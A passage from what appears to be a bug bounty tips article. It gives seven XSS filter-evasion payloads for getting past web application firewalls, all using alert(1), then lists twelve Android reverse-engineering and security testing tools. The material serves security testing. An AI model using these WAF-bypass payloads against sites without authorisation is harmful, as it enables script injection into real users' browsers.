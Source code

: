 1.  Check if the firewall is blocking only lowercase:  
    `<sCRipT>alert(1)</sCRiPt>`  
    
2.  Try to break firewall regex with new line (\\r\\n), aka. CRLF injection:  
    `<script>%0d%0aalert(1)</script>`  
    
3.  Try double encoding:  
    `%2522`  
    
4.  Testing for recursive filters, if firewall removes the text in bold, we will have clear payload:  
    `<scr**<script>**ipt>alert(1);</scr**</script>**ipt>`  
    
5.  Injecting anchor tag without whitespaces:  
    `<a/href="j&Tab;a&Tab;v&Tab;asc&Tab;ri&Tab;pt:alert&lpar;1&rpar;">`  
    
6.  Try to bypass whitespaces using a bullet:  
    `<svg•onload=alert(1)>`  
    
7.  Try to change request method (POST instead of GET):  
    
    |     |     |     |
    | --- | --- | --- |
    | `GET /?q=xss` | `POST /   q=xss` |     |
    

**Protip**: Check also previously published tip on WAF bypass [BBT7-5](https://www.infosecmatter.com/bug-bounty-tips-7-sep-27/#5-bypass-waf-blocking-javascript-in-xss).

## 10\. List of 12 Android security testing tools

By [@cry\_\_pto](https://twitter.com/cry__pto)  
Source: [link](https://twitter.com/cry__pto/status/1315306273378914305)

This is a compilation of some of the best Android security testing tools available today:

-   [Dex2JAR](https://github.com/pxb1988/dex2jar) - Set of tools to work with Android Dex and Java CLASS files
-   [ByteCodeView](https://github.com/Konloch/bytecode-viewer) - Java & Android APK reverse engineering suite (decompiler, editor, debugger & more)
-   [JADX](https://github.com/skylot/jadx) - Dex to Java decompiler tools for producing Java source code from Android Dex and APK files
-   [JD-GUI](https://github.com/java-decompiler/jd-gui) - A standalone graphical utility that displays Java sources from CLASS files
-   [Drozer](https://github.com/FSecureLABS/drozer) - A comprehensive security testing framework for Android
-   [Baksmali](https://github.com/JesusFreke/smali) - An assembler/disassembler for the Dex format used by Dalvik (Android's Java)
-   [AndroGuard](https://github.com/androguard/androguard) - A swiss army knife for analyzing, decompilation and reversing of Android apps
-   [ApkTool](https://github.com/iBotPeaches/Apktool) - Another swiss army knife tool for reverse engineering Android apps
-   [QARK](https://github.com/linkedin/qark) - Tool to look for several security related Android application vulnerabilities
-   [AndroBugs](https://github.com/AndroBugs/AndroBugs_Framework) - Another analysis tool for identifying security vulnerabilities in Android applications
-   [AppMon](https://github.com/dpnishant/appmon) - An automated framework for monitoring and tampering system API calls of native macOS, iOS and Android apps
-   [MobSF](https://github.com/MobSF/Mobile-Security-Framework-MobSF) - An all-in-one automated mobile security framework supporting Android, iOS and Windows mobile apps
